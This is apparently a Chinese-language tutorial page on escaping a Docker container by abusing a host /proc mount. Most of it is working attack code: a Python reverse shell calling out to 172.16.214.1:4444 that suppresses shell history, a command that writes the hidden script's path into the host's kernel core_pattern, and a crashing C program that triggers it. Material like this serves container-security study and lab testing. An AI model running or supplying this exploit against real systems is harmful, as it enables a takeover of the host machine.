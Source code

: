 安装 vim 和 gcc

```bash
apt-get update -y && apt-get install vim gcc -y
vim /tmp/.t.py
```

创建一个反弹 Shell 的 py 脚本

```python
#!/usr/bin/python3
import  os
import pty
import socket
lhost = "172.16.214.1"
lport = 4444
def main():
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   s.connect((lhost, lport))
   os.dup2(s.fileno(), 0)
   os.dup2(s.fileno(), 1)
   os.dup2(s.fileno(), 2)
   os.putenv("HISTFILE", '/dev/null')
   pty.spawn("/bin/bash")
   # os.remove('/tmp/.t.py')
   s.close()
if __name__ == "__main__":
   main()
```

给 Shell 赋予执行权限

```bash
chmod 777 .t.py
```

写入反弹 shell 到目标的 proc 目录下

```bash
echo -e "|/var/lib/docker/overlay2/5717cb9154218ec49579ae338cd1c236694d6a377d61fd6d17e11e49d1b1baad/merged/tmp/.t.py \rcore    " >  /host/proc/sys/kernel/core_pattern
```

在攻击主机上开启一个监听，然后在容器里运行一个可以崩溃的程序

```c++
vim t.c
#include<stdio.h>
int main(void)  {
   int *a  = NULL;
   *a = 1;
   return 0;
}
gcc t.c -o t
./t
```

<img width="1200" src="/img/1650013515.png">

> 参考资料：https://xz.aliyun.com/t/8558

<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年4月15日"
    }
  }
</script>